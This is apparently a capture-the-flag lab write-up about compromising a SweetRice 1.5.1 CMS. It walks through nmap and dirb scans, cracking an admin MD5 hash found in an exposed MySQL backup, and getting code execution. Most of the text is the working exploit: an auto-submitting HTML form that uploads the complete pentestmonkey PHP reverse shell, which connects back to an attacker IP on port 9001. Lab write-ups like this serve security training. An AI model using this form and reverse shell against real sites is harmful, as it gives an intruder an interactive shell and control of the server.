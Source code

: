 Starting off with an nmap scan 

```nmap -sC -sV -O 10.10.14.115```

Just 2 ports open, 22 and 80 which indicate SSH and an HTTP server respectively.

Let's check out the http server...we're greeted by the default Apache2 ubuntu page. We'll run Dirb to check for any hidden directories.

`dirb http://10.10.14.115 /usr/share/dirb/wordlists/big.txt`

And we'll also add the -X .php option since this is an apache server.

`dirb http://10.10.14.115 /usr/share/dirb/wordlists/big.txt -X .php`

We found a directory at http:/10.10.14.115/content

Looks like this page is using a website management system called "SweetRice". Let's look it up on exploit-db.

I couldn't find a version number but the majority of the exploits seem to affect version 1.5.1, let's try and use an arbitrary file upload exploit to upload a reverse shell.

We'll use https://www.exploit-db.com/exploits/40716

It looks like we need to be authenticated for this exploit to work. We could try and brute-force the login but let's try another attack vector first. Our dirb scan found several directories within /content

Three of these stand out to me. `/content/as` `/content/inc` and `/content/as/lib`

`/content/as` is the admin sign-in panel to access the dashboard.

`/content/as/lib` contains PHP scripts that provide functionality to the website.

`/content/inc` also contains PHP scripts but it also contains a few directories. One of them being `mysql_backup/` We can try and look for some credentials stored in the backup. Let's download the file to our Attackbox and open it up with a text editor.

`"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\`

Looks like we found some hard-coded credentials. It looks like an MD5 hash so we'll need to crack it. I opted to use crackstation for this.

Now that we have some credentials, let's use them to login to the admin panel we saw earlier.

Let's use https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html to try and get a shell on the system. (We've also cofirmed the version number as 1.5.1)

After slightly modifying the exploit to suit our needs, we set up a listener on our attackbox and uploaded our php reverse shell. We can now navigate to http://10.10.14.115/content/inc/ads/ to run our shell.

This is what our working exploit looked like:

```<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.14.115/content/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked2"/>
<textarea type="hidden" name="adv">
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.102.213';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


asdf
